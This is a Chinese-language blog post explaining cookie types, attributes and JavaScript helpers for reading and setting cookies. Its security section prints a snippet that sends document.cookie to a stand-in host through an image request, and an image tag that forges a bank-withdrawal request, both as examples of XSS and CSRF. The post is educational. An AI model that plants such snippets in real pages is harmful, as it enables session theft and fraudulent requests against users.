 ```yaml
---
layout: post
title: cookie 的分类
category: computer
tag: 理解计算机
---
```


## cookie 的分类

### session cookie

session cookie 没有过期时间，当浏览器关闭后就消失了，浏览器将没有设置过期时间的 cookie 作为 session cookie 来处理。

### Persistent cookie

Persistent cookie(意为：持久 cookie),这类 cookie 有一个明确的过期时间，在这段时间里面访问 cookie 归属的网站的时候都会携带 cookie ，通常用 cookie 来存储一些用户的访问信息，比如保存用户的登录状态，用户不必每次访问网站都进行登录。

### Secure cookie

Secure cookie ，这类 cookie 只会在加密传输的情况下携带，比如通过 HTTPs 传输的时候。在通过 HTTP 传输的时候，不会携带设置有 secure 标记的 cookie。

### HttpOnly cookie

当一个 cookie 被设置为 httpOnly 的以后，这个 cookie 不能被 javascript 这样的脚本语言拿到，只能通过 HTTP 和 HTTPs 传输。


### Third-party cookie

cookie 的 domain 属性和浏览器地址栏中 domain 一致的 cookie 叫做 first-party cookie， 第三方 cookie 就是其 domain 属性不同于 浏览器地址栏中的 domain 的，这类 cookie 通常是属于第三方广告商的，他们会记录用户的访问习惯，和浏览历史，以此做到准确投放广告。

对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

## cookie 的组成

cookie 由一下几个部分组成：

+ name
+ value
+ 其他属性

cookie 中 name 和 value 不能有 `, ; =` 以及空格 ，因为这几个符号是用来分隔 cookie 中的名和值的。如要包含，则要进行字符转译。在 javascript 中可以使用 `encodeURIComponent` 来完成。

对于服务器要设置 cookie 只需要在 HTTP 响应头部中使用 `Set-Cookie: token=324` 这样的方式就可以了。对于浏览器可以使用 `document.cookie="name=xiaowang";domain="example.com"` 就可以了。

### cookie 的注意事项

#### Domain 和 Path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 ``/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

#### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement(‘img’);
img.src = ‘www.foo.com?’+ ‘text=’ + escape(document.cookie);
```

#### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

### 使用 javascript 操作 cookie

```javascript
util.setCookie = function(name, value, dayToLive, option) {
	var cookie = name + '=' + encodeURIComponent(value);
	if (typeof dayToLive === 'number') {
		cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
	}
	if (option) {
		for (var key in option) {
			if (key === 'path') {
				cookie += ';path=' + option[key];
			} else if (key === 'domain') {
				cookie += ';domain=' + option[key];
			} else if (key === 'secure') {
				cookie += ';secure';
			}
		}
	}
	document.cookie = cookie;
};

util.getCookie = function(name) {
	var cookie = document.cookie;
	var list = cookie.split(/;\s/);
	for (var i = 0; i < list.length; i++) {
		var pair = list[i].split('=');
		if (pair[0] == name) {
			return decodeURIComponent(pair[1]);
		}
	}
	return null;
};
```

需要注意的是：在  浏览器中 javascript 是拿不到 cookie 的过期时间，path，domain 等信息的，多条 cookie 之间是通过 `; ` 分号和空格分隔开来的，形如：`"name=xiaoming; age=21" ` 所以想要获取 cookie 首先需要使用 `/;\s/` 这样的正则将其分隔开来，然后对每一项，再使用 `=` 分割这样就得到了键值。最后在对结果进行一些转码。

而设置 cookie 的方法则是直接在 document.cookie 上面赋值即可，这不会影响到现有的 cookie （当年我觉得这样会覆盖掉现有的 cookie，其实是并不是这样的），对于 domain 和 path 等信息，可以设置但是不会被访问到。
